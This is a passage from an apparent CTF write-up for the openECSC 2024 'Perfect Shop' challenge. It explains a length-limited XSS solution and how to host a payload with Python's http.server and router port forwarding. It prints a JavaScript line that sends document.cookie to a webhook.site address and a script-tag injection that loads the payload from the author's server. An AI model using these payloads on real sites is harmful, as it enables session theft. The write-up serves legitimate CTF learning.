 In the end, the solution was to write your payload to any file. The payload can be as long as you want, the important thing is that the tag that includes the JavaScript code in it is less than 50 characters.

At this point, I created a file named `x.js` that would change the page's address to that of my server, like this:

```js
window.location = "https://webhook.site/[REDACTED]?c=" + document.cookie;
```

At this point, all it took was to send the bot a payload that made it search for `<script src='//[IP]:[PORT]/'></script>`, so that it included the file from my server, executed it, and sent me the flag by changing the page's address from that of the challenge to that of my webhook, including the cookie parameters related to the challenge site as query parameters.

#### How to expose your server to the world

To expose your files to the rest of the internet, you don't need to physically own a server. Your PC can serve this purpose without much trouble. All you need is Python to do what I did during the competition, so I believe any operating system that supports Python also allows you to expose a server as I'm about to show:

Firstly, you need to get your local IP, which on Linux you can obtain by running the command `ifconfig`:

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/img/ifconfig.png" alt="Example of finding local IP with ifconfig">
You will likely see an IP starting with `192.`; here, I tested it on my university's MAN.

Then, to expose the file containing the payload to the local network, you can use the Python command `python3 -m http.server [PORT]`. This command sets up a simple HTTP server that exposes all files in the folder and its subfolders where the command was executed. This means that at the URL `http://[IP]:[PORT]/x.js`, if everything is set up correctly, you should find the payload.

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/img/SimpleHTTPserver.png" alt="Example of a simple HTTP server">
Opening it, you should be able to see the payload, which is not being executed. Do not be afraid; when this is included in the script tag, it will be executed as necessary.

As all good kids know, it's the router that communicates with the fantastic world of the internet, not our device directly, which only receives and sends information via the router. To find out what your external IP address is, you can use an online service like [whatismyip.com](https://www.whatismyip.com/). 

At this point, we have almost everything: we know the IP address where the file to be included in the script tag passed to the bot will be located (i.e., the IP we just found), and we know the port on our device where our files are exposed (after all, we chose it).

But there's one step missing: the router is reachable from the outside world, but the server hosted on the device is only reachable within the local network. Somehow, we need to tell the router that when a request is received on a certain port, that request should be handled by the Python server.

[Port forwarding](https://en.wikipedia.org/wiki/Port_forwarding) allows us to do this. The procedure for enabling it varies greatly depending on the router manufacturer.

<img class="img-responsive" src="{{ site-url }}/assets/openecsc2024/Perfect-Shop/img/PortForwarding.png" alt="Example of port forwarding">
As for the protocol, it's important to select TCP/UDP or similar if available; otherwise, it's better to create a port forwarding table for each protocol.
